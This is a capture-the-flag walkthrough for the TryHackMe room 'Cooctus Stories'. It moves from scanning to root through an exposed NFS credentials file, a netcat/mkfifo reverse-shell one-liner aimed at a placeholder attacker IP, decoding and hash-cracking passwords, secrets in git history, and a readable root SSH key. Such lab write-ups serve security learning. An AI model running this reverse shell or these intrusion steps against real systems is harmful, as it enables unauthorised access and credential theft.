





|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--| :-----------: |--| :--------:|--|
|  |   Medium   |  | 10.10.152.188 |  | [Cooctus Stories](https://tryhackme.com/room/cooctusadventures) |  |

---

### [ Paradox is nomming cookies ]

Let's start off with a full nmap scan on the target machine:

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.152.188
```

**Results:**

```
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
[REDACTED]
111/tcp   open  rpcbind  syn-ack ttl 61 2-4 (RPC #100000)
[REDACTED]
2049/tcp  open  nfs_acl  syn-ack ttl 61 3 (RPC #100227)
8080/tcp  open  http     syn-ack ttl 61 Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: CCHQ
38887/tcp open  nlockmgr syn-ack ttl 61 1-4 (RPC #100021)
40559/tcp open  mountd   syn-ack ttl 61 1-3 (RPC #100005)
48193/tcp open  mountd   syn-ack ttl 61 1-3 (RPC #100005)
51421/tcp open  mountd   syn-ack ttl 61 1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are many ports that are open, but the ones that really interest me are: **22 (SSH)**, **111 (NFS)**, **8080 (HTTP)**

Let's first visit the HTTP website:


We are brought to a secure landing page for the Cooctus Clan.

I did some basic enumeration on the site, such as checking for the /robots.txt file and looking into the source code, but was unable to find anything useful.

Next, I ran a Gobuster directory scan to enumerate any hidden directories:

```
gobuster dir -u http://10.10.152.188:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 25
```

After some time, Gobuster reveals 2 directories: **/login** and **/cat (which redirects back to /login)**


Let's take a look at the **/login** directory:


As expected, we have a login page!

I tried some common credentials like `admin:admin`, but those did not work. It'll also be tough to brute-force any passwords without a valid username, so let's move on for now.

Let's now enumerate the **NFS** server running on port 111.

To see if there are any mountable directories on the target machine, we can run:

```
showmount -e 10.10.152.188
```


Turns out **/var/nfs/general** on the target machine is mountable!

We can mount this directory onto our local machine:

```
mkdir /tmp/cooctus
sudo mount -t nfs 10.10.152.188:/var/nfs/general /tmp/cooctus -o nolock
```

Looking into this directory, we see an interesting text file called **credentials.bak**:


This file contains a set of credentials:

> paradoxial.test : ShibaPretzel79

Fortunately for us, these credentials allowed us to log into the website:


We are brought to a page that allows us to test our exploits. Perhaps we can run a reverse shell command here?

I tried a bunch of reverse shell payloads, eventually finding one that worked:

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```


We are logged in as the user **paradox**.

The **first flag** can be found in his home directory:


---

### [ Find out what Szymex is working on ]

Navigating to /home, we can see that there are a few other users on the machine:


We are able to navigate into szymex's home directory:


The only files that we have permissions to read are: **note_to_para** and **SniffingCat.py**

**note_to_para:**

```
Paradox,

I'm testing my new Dr. Pepper Tracker script. 
It detects the location of shipments in real time and sends the coordinates to your account.
If you find this annoying you need to change my super secret password file to disable the tracker.

You know me, so you know how to get access to the file.

- Szymex
```

We have a message from szymex to paradox. With that said, there's nothing much we can do with this information.

**SniffingCat.py:**

```python
#!/usr/bin/python3
import os
import random

def encode(pwd):
    enc = ''
    for i in pwd:
        if ord(i) > 110:
            num = (13 - (122 - ord(i))) + 96
            enc += chr(num)
        else:
            enc += chr(ord(i) + 13)
    return enc


x = random.randint(300,700)
y = random.randint(0,255)
z = random.randint(0,1000)

message = "Approximate location of an upcoming Dr.Pepper shipment found:"
coords = "Coordinates: X: {x}, Y: {y}, Z: {z}".format(x=x, y=y, z=z)

with open('/home/szymex/mysupersecretpassword.cat', 'r') as f:
    line = f.readline().rstrip("\n")
    enc_pw = encode(line)
    if enc_pw == "pureelpbxr":
        os.system("wall -g paradox " + message)
        os.system("wall -g paradox " + coords)
```

From this script, we notice that there is an **encode()** function. This function will take in a string and change the unicode code for each character in the string based on some conditions. This essentially encrypts the string.

From the bottom of the script, we also see the ciphertext of the password stored in 'mysupersecretpassword.cat': **pureelpbxr**

With that, we can write a simple Python script to brute-force the password:

```python
def encode(pwd):
    enc = ''
    for i in pwd:
        if ord(i) > 110:
            num = (13 - (122 - ord(i))) + 96
            enc += chr(num)
        else:
            enc += chr(ord(i) + 13)
    return enc


char_set = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"
enc = "pureelpbxr"
original = ""

for i in enc:
    for j in char_set:
        if i == encode(j):
            original += j
            break

print(original)
```

Our script reveals the password to szymex's account!


We can then ssh into szymex's account:


The **second flag** can be found in szymex's home directory:


---

### [ Find out what Tux is working on ]

The first thing I did was to check szymex's **sudo privileges**:



Unfortunately, they had none.

However, it seems that szymex is part of a **testers** group:


Keeping that in mind, let's navigate into the user **tux's** home directory *(we have the permissions to do so)*:


What really interested me in this directory was the **tuxling_1** and **tuxling_3** directories. Looking at their permissions, we see that they are under the **testers** groups, which means that we will be able to access them as szymex:


Navigating into **tuxling_1**, we see a C script called **nootcode.c** and a **note**:



**note:**


It seems like we have to collect fragments of a secret key. This note tell us to crack nootcode.c and suggests that we compile the source code with `gcc`.

Luckily for us, we don't actually have to do that. Instead, the first fragment can be found within the code itself.

**nootcode.c:**


To find the key, we just have to replace the text below with the definitions at the top of the code. The second chunk reveals the first key fragment:

```
void key () {
	printf (f96050ad61);
}
```

**The first fragment is:**

> f96050ad61

Next, let's navigate to **tuxling_3**:


This directory contains a note file which holds the last fragment!


**The last fragment is:**

> 637b56db1552

It seems like we're missing the second tuxling directory. Let's locate it using `find`:

```
find / -iname 'tuxling_*' 2>/dev/null
```


Navigating to **/media/tuxling_2**, we are greeted with a PGP-encrypted file and a private PGP key:


**note:**


The note tells us to decrypt the file to obtain the second key fragment. We can use `gpg` to do so:

```
gpg --import private.key
gpg -d fragment.asc
```


**The second fragment is:**

> 6eaf62818d

We can combine all 3 fragments to obtain the secret key:

> f96050ad616eaf62818d637b56db1552

This key is actually a hash, so let's use an online [hash cracker](https://hashes.com/en/decrypt/hash) to crack it:


And we've obtained tux's password!

> tuxykitty

We can then ssh into tux's account:


The **third flag** can be found in tux's home directory:


---

### [ Find out what Varg is working on ]

Using `id`, we find out that tux is in a group called **os_tester**:


We also see that he can run a Python script called **CooctOS.py** as the user **varg**:


Let's move over to varg's home directory:


There is the Python script, **CooctOS.py**, that we saw in our sudo privileges. 

Let's try running this script:

```
sudo -u varg /home/varg/CooctOS.py
```


CooctOS.py seems to boot up an operating system for us to use. However, we need to supply either a cookie or a password. Without either of those, we can't really do much. Let's move on for now.

There is also a directory called **cooctOS_src**. We actually have the permissions to explore this directory as it is accessible by the **os_tester** group:


I looked around the cooctOS_src directory for awhile before realising that there was a hidden **.git** directory inside:


This indicates that cooctOS_src is actually a Github repository! Let's run some `git` commands to enumerate more information about this repo.

First, let's take a look at the commit history:

```
git log
```


Interesting, there was a CooctOS login script that was removed. We can view this script by showing the specific commit:

```
git show 8b8daa41120535c569d0b99c6859a1699227d086
```

Looking through the script, we actually find the cookie and password needed to log into CooctOS:



The cookie-password pair is:

> varg : slowroastpork

Let's provide these credentials to the script:


And a shell as the user varg is spawned!

With that, we can obtain the **fourth flag** from varg's home directory:


---

### [ Get full root privileges ]

As usual, let's view varg's **sudo privileges**:



Looks like we can run `umount` as root.

---

*`umount` is used to manually unmount filesystems on Linux and other Unix-like operating systems*

---

From the boot up screen of CooctusOS earlier, we saw that the Cooctus filesystem was mounted under **/opt**:


Doing some research online, I found out [how](https://www.cyberciti.biz/faq/linux-command-list-mounted-devices-in-terminal/) to view mounted drives on Linux machines using `df`:

``` 
df -aTh
```

From the results, we see that there the mounted drive is located at **/opt/CooctFS**:


Let's try using `umount` to unmount this drive:

```
sudo /bin/umount /opt/CooctFS
```

To my surprise, when I tried to view the contents of /opt/CooctFS after unmounting it, we see that it actually contains the **root** directory!



My guess is that /opt/CooctFS actually contained /root at the start. However, when we ran CooctOS.py earlier, a new drive was mounted **over** this /root directory, essentially hiding it. Hence, by unmounting the drive, /root is revealed :smiley: 

In this directory, we have the **root.txt** file. Unfortunately, reading it does not give us the root flag:


We need to find a way to escalate our privileges...

Looking more closely at /root, we find that it contains the .**ssh** directory. This directory contains the root user's private SSH key!


The key is also globally-readable, so we can simply `cat` it out and copy its contents over to our local machine:


We can then use this key to ssh into the machine as root:


With that, we can finally obtain the **root flag** from /root:


